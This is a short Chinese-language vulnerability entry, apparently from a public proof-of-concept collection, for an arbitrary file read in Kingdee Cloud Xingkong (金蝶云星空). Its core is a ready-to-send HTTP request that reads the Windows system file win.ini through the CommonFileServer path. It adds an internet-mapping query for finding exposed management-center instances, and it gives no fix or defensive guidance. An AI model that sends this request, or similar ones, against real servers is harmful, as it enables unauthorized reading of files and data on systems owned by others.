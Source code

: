 #### 影响范围

金蝶云星空

#### 漏洞概述

金蝶云星空 任意文件读取

#### 漏洞复现

```
GET /CommonFileServer/c:/windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=boab0ws0z3hkzpdihp2hai50; Theme=standard; kdservice-sessionid=c8d41e97-70dc-4be6-a29a-8c3446f10802
Connection: close

```

![jingdie](img/jingdie.png)

#### 网络测绘

```
app="金蝶云星空-管理中心"
```











